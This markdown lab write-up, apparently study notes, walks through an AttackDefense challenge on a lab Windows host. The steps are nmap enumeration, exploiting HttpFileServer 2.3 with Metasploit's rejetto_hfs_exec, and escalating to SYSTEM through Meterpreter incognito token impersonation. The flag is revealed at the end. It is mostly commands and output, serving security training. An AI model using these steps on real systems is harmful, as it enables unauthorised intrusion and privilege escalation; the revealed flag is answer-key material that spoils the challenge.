



# 🔬Access Token

## Lab 1

>  🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
>  - Target IP: `10.4.22.75`
>  - **Access Token impersonation** 

### Enumeration

```bash
nmap 10.4.22.75
```

```bash
PORT      STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.22.75
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```

- Without using `nmap`, the `http` server version can be checked in a browser by opening the link
  - `http://10.4.22.75/`

### Exploitation

```bash
searchsploit hfs
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.22.75
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
exploit
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Meterpreter     : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 3640
    [*] Migrating from 1692 to 3640...
    [-] core_migrate: Operation failed: Access is denied.

getuid
	Server username: NT AUTHORITY\LOCAL SERVICE
# LOCAL SERVICE account is by default unprivileged

getprivs
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege
```

- This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation

#### Access Token Impersonation

```bash
load incognito
# if the session dies, run the exploit again
```

```bash
list_tokens -u

    Delegation Tokens Available # Interactive Logon
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE

    Impersonation Tokens Available # Non-Interactive Logon
    ========================================
    No tokens available
```



- `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
	Server username: ATTACKDEFENSE\Administrator
getprivs
	[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
pgrep explorer
migrate 3640

getprivs
```



- Listing tokens with this account, there can be additional available tokens

```bash
list_tokens -u

    Delegation Tokens Available
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1

    Impersonation Tokens Available
    ========================================
    Font Driver Host\UMFD-0
    Font Driver Host\UMFD-1
    NT AUTHORITY\NETWORK SERVICE
```

- `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

- In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
- Get the flag of the lab:

```
cd C:\\Users\\Administrator\\Desktop\\
```


<details>
<summary>Reveal Flag: 🚩</summary>


`x28c832a39730b7d46d6c38f1ea18e12`



</details>

------

